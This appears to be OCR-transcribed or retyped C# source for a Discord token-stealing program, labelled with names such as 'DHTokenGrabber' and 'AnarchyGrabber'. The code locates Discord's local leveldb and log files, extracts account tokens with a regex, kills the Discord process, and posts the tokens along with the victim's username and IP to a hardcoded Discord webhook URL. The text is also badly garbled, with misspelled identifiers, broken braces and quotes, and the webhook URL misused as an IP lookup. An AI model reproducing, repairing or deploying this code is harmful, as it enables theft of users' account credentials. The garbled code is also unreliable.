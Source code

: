 https://discord.com/api/webhooks/915350603981520946/y0FpguWIAH3lB2GqzxWbsIZ2hW85K6orBEOb36wE8znvAYq6YhHyr_wMkGIEcZDS5USq
namespace DHTokenGrabber
{   
// token: RID: 365 RVA: file Offset:
internal class program
{

 // token:RID:366 RVA:0x00008888 File Offset:0x000000424
 private static void mai(string[]argvs)
 {  
     string text=Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\discord\\local storage\\leveldb";
     if(!Grabber.FinLfb(ref text)&& !Grabber.FinLog(ref text))
     {  
         program.SenWH("no valid .ldb or .log file found");
     }
     process[] processesByName= process.GetProcessysByName("Discord");
     for(int i = 0;i < processesByName.Lenght; i++)
     {
         processesByName[i].kill();
     }
     Thread.sleep(100);
     string text2 = Grabber.GetToken(text, text.EndsWith(".log"));
     if(text2 =="")
     {
         text2 = "not found";
     }
     program.SenWH(text2);
 }

 // Token: 0x0600007 RID: 7 RVA: 0x000022B4 File Offset: 0x000004B4
 private static void SenWH(string Token)
 {  
     httpClient httpClient = new httpClient();
     MultiPlataformDataContent MultiPlataformDataContent = new MultiPlataformDataContent(); 
     MultiPlataformDataContent.add(new stringContent("DiscordHaxx Token Grabber"), "username");
     MultiPlataformDataContent.add(new stringContent(), "avatar_url");
     MultiPlataformDataContent.add(new string.Concat(new string[]
{
"Token by"
Environment.username,
" on ",
program.GetIP();
"\r\nResult",
token
"content");
})),
try 
{
    HttpResponseMEssage result = httpClient.PostAsync(settings.WebHook, multiPlataformDataContent).Result;
}
catch (Exception)
{
}
 }
 // Token: 0x060008 RID: 365 RVA: 0x0000818 File Offset: 0x00009A18
 private static string GetIP()
 {
     string result;
     try
 }
  result = new httpClient().GetStringAsync("https://discord.com/api/webhooks/915350603981520946/y0FpguWIAH3lB2GqzxWbsIZ2hW85K6orBEOb36wE8znvAYq6YhHyr_wMkGIEcZDS5USq").result;
}
catch (WebException)
}
result = "unable to get  IP";
}
return result;
}
}
}   
public static void sendWebHook(string discordWebHook,   string content)
{
    try
    {   
        httpClient httpClient = new httpClient();
        Dictionary<string, string> nameValuecollection = new  Dictionary<string, string>
        { 
            {
                "content",
                "" + string.join("\n",new string[]
                {
                    content
                }) + ""
            },
            {
                "NamDO -Sam#0386"
                "redex token grabber"
            },
            {
                "undefined//discord.com/assets/652f40427e1f5186ad54836074898279.png"

            }
        };
        httpClient.PostAsync(https://discord.com/api/webhooks/915350603981520946/y0FpguWIAH3lB2GqzxWbsIZ2hW85K6orBEOb36wE8znvAYq6YhHyr_wMkGIEcZDS5USq, new ForUrlcodedContent(nameValuecollection)).GetAwaiter().GetResult();
        catch (WebException)
        {
        }
    }
    //AnarchyGrabber.Grabber   
    // token: RID:366 RVA:0x00008888 File Offset:e
    public static List<string> GetTokens(string dir, bool checklogs = false)
    {
        DirectoryInfo directoryinfo = new DirectoryInfo(Environment.GetFolderPath(Environment.SpecialFolder.UserProfile) + "\\AppData\\"
        + dir + "\\Local Storage\\leveldb");
        List<string> list = new List<string>();
        try 
        {
            foreach (FileInfo fileinfo in directoryinfo.Getfiles(checklogs ? "".log" : "".ldb"))
            {
                string input = fileInfo.OpenText().ReadToEnd();
                foreach (object obj in regex.Matches(input, "[\\w-]{24}\\.[\\w-]{6}\\.[\\w-}{27}"))
                {
                    Match macht2 = (Match)ojb2;
                    list.Add(macht2.Value);
                }
            }
        }
        catch
        {
        }
        list = list.Distinct<string>().Tolist<string>();
        bool flag = list.Count > 0;
        if (flag)
        {
            Grabber.TokensFound = true;
            List<string> list2 = list;
            int index = list.Count - 1;
            list2[index]+= " -NEWEST";
        }
        return list;
